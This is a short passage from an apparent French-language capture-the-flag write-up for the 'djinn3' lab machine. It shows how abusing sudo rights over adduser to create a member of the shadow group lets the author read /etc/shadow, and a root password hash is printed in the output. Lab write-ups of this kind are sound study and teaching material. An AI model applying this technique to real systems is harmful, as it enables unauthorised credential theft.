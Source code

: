 Une solution alternative pourrait être de créer un utilisateur membre du groupe `shadow` afin de lire les mots de passe du système :

```console
saint@djinn3:~$ cat /etc/group | grep shadow
shadow:x:42:
saint@djinn3:~$ sudo /usr/sbin/adduser --gid 42 --shell /bin/bash shadow
Adding user `shadow' ...
Adding new user `shadow' (1005) with group `shadow' ...
Creating home directory `/home/shadow' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for shadow
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
saint@djinn3:~$ su shadow
Password: 
shadow@djinn3:/home/saint$ id
uid=1005(shadow) gid=42(shadow) groups=42(shadow)
shadow@djinn3:/home/saint$ head /etc/shadow
root:$6$YPyhO8kL$i1sogRL.8t9NdMgPw7Ng/lzus2Q3yocQhSW8eMDqiGDPjejKI1qS.Y241qm6kwZYd4JDsgL6Rtkv29rTZBHbk0:18387:0:99999:7:::
--- snip ---
```

Il faut toutefois être en mesure de casser les hashs ensuite.

*Publié le 22 novembre 2022*
